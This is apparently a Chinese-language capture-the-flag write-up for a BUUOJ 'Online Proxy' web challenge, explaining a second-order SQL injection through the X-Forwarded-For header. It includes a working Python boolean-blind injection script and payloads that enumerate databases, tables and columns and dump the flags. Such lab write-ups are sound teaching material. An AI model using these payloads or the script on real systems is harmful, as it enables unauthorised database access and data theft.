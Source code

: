 ![](<./img/Pasted image 20230219102937.png>)

```
/
```

```
欢迎使用 Online Proxy。使用方法为 /?url=，例如 /?url=https://baidu.com/。  
为了保障您的使用体验，我们可能收集您的使用信息，这些信息只会被用于提升我们的服务，请您放心。
```

```
/?url=https://baidu.com/
```

![](<./img/Pasted image 20230219103145.png>)

![](<./img/Pasted image 20230219103535.png>)

响应包的结尾出现了奇怪的东西

显示的是内网地址，推测可以通过`X-Forwarded-For`头控制回显

```http
X-Forwarded-For: php_wa_saikou!
```

![](<./img/Pasted image 20230219103842.png>)

```http
X-Forwarded-For: aba
```

![](<./img/Pasted image 20230219105717.png>)

这里看wp说是存在二次注入，后台维护一对`currentIp`和`lastIp`，每次访问`ip`和最近一次不同就往后推，并且插入数据库

1. 令第一次`XFF`内容为`sql`注入文本，经过转义后作为`currentIp`
2. 令第二次`XFF`内容为不同的文本，使得未转义的`currentIp`作为`lastIp`拼接成查询
3. 令第三次`XFF`内容与第二次相同，则`lastIp`的值回显

```python
import requests
import time
from sys import stdout

url = 'http://node4.buuoj.cn:29528/'

payloads = ["0' or (ascii(substr((select group_concat(schema_name) from information_schema.schemata), {}, 1)) > {}) or '0", 'z', 'z']

success = lambda response: 'Last Ip: 1' in response.text

index = 0
while True:
    session = requests.sessions.Session()
    index += 1
    left = 0
    right = 127
    while left < right:
        time.sleep(0.3)
        mid = (left + right) // 2
        response = [
            session.get(
                url, headers={'X-Forwarded-For': payload.format(index, mid)})
            for payload in payloads
        ][-1]
        if success(response): # mid < nth_char
            left = mid + 1
        else:
            right = mid
    print(chr(left), end='')
    stdout.flush()
```

```
information_schema,ctftraining,mysql,performance_schema,test,ctf,F4l9_D4t4B45e
```

```
0' or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='F4l9_D4t4B45e'), {}, 1)) > {}) or '0
```

```
F4l9_t4b1e
```

```
0' or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='F4l9_t4b1e'), {}, 1)) > {}) or '0
```

```
F4l9_C01uMn
```

```
0' or (ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e), {}, 1)) > {}) or '0
```

```
flag{G1zj1n_W4nt5_4_91r1_Fr1end},flag{527fe9cc-7ec6-4a39-92dd-7650feb095ca}
```

#Web #HTTP #Header #xff #SQL注入 #二次注入 #布尔盲注 